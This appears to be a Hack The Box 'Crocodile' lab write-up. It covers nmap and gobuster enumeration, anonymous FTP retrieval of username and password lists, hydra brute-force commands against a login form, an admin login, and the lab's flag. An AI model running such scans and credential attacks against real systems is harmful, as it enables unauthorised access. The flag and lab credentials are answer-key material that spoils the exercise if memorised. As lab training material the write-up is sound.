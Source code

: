# HTB: Crocodile

### Commands from Demonstration

```
dirb http://10.129.1.15/ /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

```
feroxbuster -u "http://10.8.0.222" --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --no-recursion -t 100
```

```
hydra 10.129.1.15 -L allowed.userlist -P allowed.userlist.passwd http-post-form "/login.php:Username=^USER^&Password=^PASS^&Submit=Login:F=Incorrect information" -V
```

```
hydra 10.129.1.15 -L allowed.userlist -P allowed.userlist.passwd http-post-form "/login.php:Username=^USER^&Password=^PASS^&Submit=Login:F=Incorrect"
```

### Nmap 

#### Nmap Scan Command
```nmap -A -T5 10.129.133.157```

#### Nmap Scan Output
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -A -T5 10.129.133.157
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-10 12:23 EDT
Warning: 10.129.133.157 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.133.157
Host is up (0.058s latency).
Not shown: 911 closed tcp ports (conn-refused), 87 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION

| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.119
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.58 seconds

```

### Ports
#### 21/tcp open  ftp     vsftpd 3.0.3
Anonymous ftp sign in allowed.

Connect using command ```ftp anonymous@10.129.133.157 21```

Access granted without prompting password.
```
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp anonymous@10.129.133.157 21
Connected to 10.129.133.157.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Check current directory using ```ls```
```
ftp> ls
229 Entering Extended Passive Mode (|||47588|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp>
```

First, transfer the allowed.userlist to the local machine by using the ```get allowed.userlist``` command
```
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||45708|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |***********************************************************************|    33      374.72 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.55 KiB/s)
ftp>
```

By opening another terminal on the local machine, it is possible to ```cat``` the contents of the transferred file.
```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist 
aron
pwnmeow
egotisticalsw
admin
```

"Admin" seems like a user that would have higher privileges than the other accounts.

The same process can be used to obtain and read the "allowed.userlist.passwd" file:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist.passwd 
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```



#### 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

Using gobuster, search for specific file types

```
gobuster dir -u http://10.129.133.157 -w /usr/share/dirb/wordlists/common.txt -x .php
```

*-u indicates a URL, -w specifies a specific wordlist being run, and -x specifies what type(s) of file(s) to search for*

```
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir -u http://10.129.133.157 -w /usr/share/dirb/wordlists/common.txt -x .php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.133.157
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/.hta.php             (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htaccess.php        (Status: 403) [Size: 279]
/.htpasswd.php        (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/assets               (Status: 301) [Size: 317] [--> http://10.129.133.157/assets/]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 314] [--> http://10.129.133.157/css/]
/dashboard            (Status: 301) [Size: 320] [--> http://10.129.133.157/dashboard/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.133.157/fonts/]
/index.html           (Status: 200) [Size: 58565]
/js                   (Status: 301) [Size: 313] [--> http://10.129.133.157/js/]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/server-status        (Status: 403) [Size: 279]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================
```

Now that the login page has been identified, it is possible to attempt to gain access with the transferred credential files found earlier in the exercise. 

### Attacking with Stolen Credentials

Comparing the two files, there are four entries per document:
```
User                Password
aron                root
pwnmeow             Supersecretpassword1
egotisticalsw       @BaASD&9032123sADS
admin               rKXM59ESxesUFHAd
```

While it would be possible to try all combinations, it would be intuitive to attempt the password that is on the corresponding line of the username. For "admin" the password "rKXM59ESxesUFHAd" will be used.

### Success!!

the flag for this box is:

```c7110277ac44d78b6a9fff2232434d16```
